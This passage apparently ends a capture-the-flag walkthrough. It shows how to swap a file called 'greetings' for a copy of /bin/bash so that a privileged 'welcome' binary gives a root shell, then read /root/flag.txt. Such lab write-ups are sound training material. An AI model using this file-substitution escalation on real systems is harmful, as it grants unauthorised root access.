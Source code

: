 To obtain the root privileges, follow the given steps.

1.  *Remove the* ***greetings*** *file*
2.  *Create a file called “greetings” (the same as the previously removed) with the following command to obtain root privileges “/bin/bash”*
3.  *Run* ***welcome*** *binary file*

The commands necessary to execute the above steps are given below.

```
rm greetings
cp /bin/bash greetings
./welcome
```

Run the above commands, respectively.

<img alt="" class="bh er pi c jop-noMdConv" width="532" height="311" loading="lazy" role="presentation" src="resources/1_tBqKNhLhFJ8M-C2bZFTZTg.png" style="box-sizing: inherit; vertical-align: middle; background-color: rgb(255, 255, 255); width: 532px; max-width: 100%; height: auto;">

As you can see, we can obtain the root privileges and the **flag 4** is located in the root directory.

```
cat /root/flag.txt
```

<img alt="" class="bh er pi c jop-noMdConv" width="457" height="102" loading="lazy" role="presentation" src="resources/1_DDLF5_ZidV5O0Js2GQQvaA.png" style="box-sizing: inherit; vertical-align: middle; background-color: rgb(255, 255, 255); width: 457px; max-width: 100%; height: auto;">

As you can see, we were able to find all 4 flags.
